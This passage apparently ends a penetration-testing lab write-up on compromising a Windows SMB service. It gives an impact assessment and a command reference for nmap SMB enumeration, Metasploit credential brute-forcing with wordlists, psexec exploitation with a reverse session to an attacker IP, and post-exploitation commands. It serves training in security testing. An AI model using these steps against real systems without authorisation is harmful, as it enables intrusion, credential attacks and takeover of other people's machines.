 ### Screenshots and Evidence:
1. **nmap_scan_results.png** - Initial port discovery
2. **smb_protocols_enum.png** - Protocol version enumeration
3. **credential_discovery.png** - Successful authentication results
4. **meterpreter_session.png** - System exploitation success
5. **flag_capture.png** - Objective completion proof

### Impact Assessment:
- **Confidentiality:** COMPROMISED - Full file system access achieved
- **Integrity:** AT RISK - Administrative privileges allow system modification
- **Availability:** AT RISK - System shutdown/restart capabilities confirmed
```

---

## 📊 Quick Command Reference

### **🚀 Essential Commands Summary:**

#### **Discovery and Enumeration:**
```bash
nmap -p445 target_ip                          # Basic SMB port scan
nmap --script smb-protocols target_ip         # Protocol enumeration
nmap --script smb-enum-shares target_ip       # Share enumeration
nmap --script smb-vuln-* target_ip           # Vulnerability detection
```

#### **Metasploit Operations:**
```bash
msfconsole -q                                 # Start Metasploit quietly
use auxiliary/scanner/smb/smb_login           # Load credential scanner
set RHOSTS target_ip                          # Set target
set USER_FILE /path/to/users.txt             # Set username wordlist
set PASS_FILE /path/to/passwords.txt         # Set password wordlist
exploit                                       # Execute module
```

#### **System Exploitation:**
```bash
use exploit/windows/smb/psexec               # Load psexec exploit
set RHOSTS target_ip                         # Set target
set SMBUser username                         # Set username
set SMBPass password                         # Set password
set LHOST attacker_ip                        # Set local IP
exploit                                      # Execute exploit
```

#### **Post-Exploitation:**
```bash
shell                                        # Drop to system shell
whoami                                       # Check user context
systeminfo                                  # Get system information
dir C:\                                      # List root directory
type flag.txt                               # Read flag file
```
